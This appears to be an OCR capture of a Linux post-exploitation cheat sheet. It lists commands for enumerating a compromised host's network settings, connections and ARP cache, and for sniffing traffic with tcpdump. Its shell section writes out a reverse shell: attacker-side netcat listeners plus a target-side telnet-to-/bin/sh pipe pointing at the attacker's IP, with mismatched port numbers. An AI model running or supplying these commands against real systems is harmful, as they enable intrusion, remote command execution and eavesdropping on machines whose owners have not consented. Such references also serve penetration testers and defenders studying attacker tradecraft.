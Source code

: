 

What are the network configuration settings? What can you find out about this network? DHCP server? DNS server? Gateway?
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname



What other users & hosts are communicating with the system?
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w



Whats cached? IP and/or MAC addresses
arp -e
route
/sbin/route -nee



Is packet sniffing possible? What can be seen? Listen to live traffic
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21



Have you got a shell? Can you interact with the system?
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!



Is port forwarding possible? Redirect and interact with traffic from another view
# rinetd
# http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
